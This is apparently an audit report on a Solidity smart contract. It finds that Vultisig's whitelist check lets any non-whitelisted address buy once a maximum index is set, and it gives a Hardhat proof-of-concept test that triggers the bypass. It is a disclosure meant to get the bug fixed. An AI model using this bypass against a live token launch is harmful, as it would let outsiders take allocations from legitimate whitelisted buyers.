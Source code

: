 ## [H] Vultisig whitelisting can be bypassed by anyone

Whitelist launch will be bricked. Anyone can buy tokens, and also bypass the 3 ETH limit by buying via other non-whitelisted accounts. This will have an impact on price and ruin the opportunities of legit whitelisted users.

[Here's a diagram](https://docs.vultisig.com/vultisig-token/launch#launch-liquidity) on the timelines of the launch. "WL Launch" is the affected phase.

### Vulnerability Details

The `checkWhitelist()` function makes an erroneous check here:

```solidity
    if (_allowedWhitelistIndex == 0 || _whitelistIndex[to] > _allowedWhitelistIndex) {
        revert NotWhitelisted();
    }
```

<relative_path_091409:hardhat-vultisig/contracts/Whitelist.sol#L216>

`_allowedWhitelistIndex` is the [max index allowed](relative_path_091409:hardhat-vultisig/contracts/Whitelist.sol#L38-L39), and works as a limit, not a whitelist flag. Once it is set (which must happen for all whitelists), any non-whitelisted user can bypass it. This is because `_whitelistIndex[to]` will be `0`, and `_whitelistIndex[to] > _allowedWhitelistIndex` will never revert (`0 > 1000`, for example).

### Proof of Concept

1. Add this test to `/2024-06-vultisig/hardhat-vultisig/test/unit/Whitelist.ts`.
2. Run the test `npx hardhat test`.

```typescript
it.only("Bypasses whitelisting", async function () {
    const { owner, whitelist, pool, otherAccount, mockOracleSuccess, mockContract } = await loadFixture(deployWhitelistFixture);

    await whitelist.setVultisig(mockContract);
    await whitelist.setLocked(false);
    await whitelist.setOracle(mockOracleSuccess);

    // `otherAccount` is not whitelisted and can't bypass the whitelist check
    await expect(whitelist.connect(mockContract).checkWhitelist(pool, otherAccount, 0)).to.be.revertedWithCustomError(
    whitelist,
    "NotWhitelisted",
    );

    // Until an `_allowedWhitelistIndex` limit is set
    // This value is intended as a limit, not as a flag not allow non-whitelisted users
    await whitelist.setAllowedWhitelistIndex(10);

    // `otherAccount` and any other user can now bypass the whitelisting
    await whitelist.connect(mockContract).checkWhitelist(pool, otherAccount, 0);
});
```




